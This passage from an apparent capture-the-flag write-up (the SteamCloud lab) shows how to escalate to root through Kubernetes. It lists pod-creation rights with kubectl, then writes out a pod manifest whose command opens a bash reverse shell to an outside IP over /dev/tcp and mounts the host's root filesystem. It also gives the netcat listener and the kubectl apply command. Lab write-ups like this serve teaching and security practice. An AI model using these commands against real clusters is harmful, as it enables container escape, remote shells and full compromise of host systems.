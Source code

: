 ```bash
kubectl auth can-i --list --server https://10.10.11.133:8443\
    --certificate-authority=ca.crt --token=$token

Resources                                     ...SNIP...  Verbs
selfsubjectaccessreviews.authorization.k8s.io ...SNIP...  [create]
selfsubjectrulesreviews.authorization.k8s.io  ...SNIP...  [create]
pods                                          ...SNIP...  [get create list]

...SNIP...
```

Last line of output tells us, that we can create new pods.
We will use that to gain root for SteamCloud.

We create "evil-pod.yaml" file, config file for new container:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: 0xdf-pod2
  namespace: default
spec:
  containers:
  - name: 0xdf-pod2
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Notice, that in command and args spec we set up reverse shell that will
allow us to connect to it immediatelly after creating. Also, this new
container mounts host file system under /mnt directory, giving
us full access to underlying filesystem.

We start listening on port 443:
```bash
> sudo nc -lvnp 443
```

And create our pod:
```bash
> kubectl apply -f payloads/evil-pod.yaml \
  --server https://10.10.11.133:8443 \
  --certificate-authority=auth/ca.crt \
  --token=$token

pod/0xdf-pod2 created
```

Now we should have reverse shell with root access to underlying filesystem.
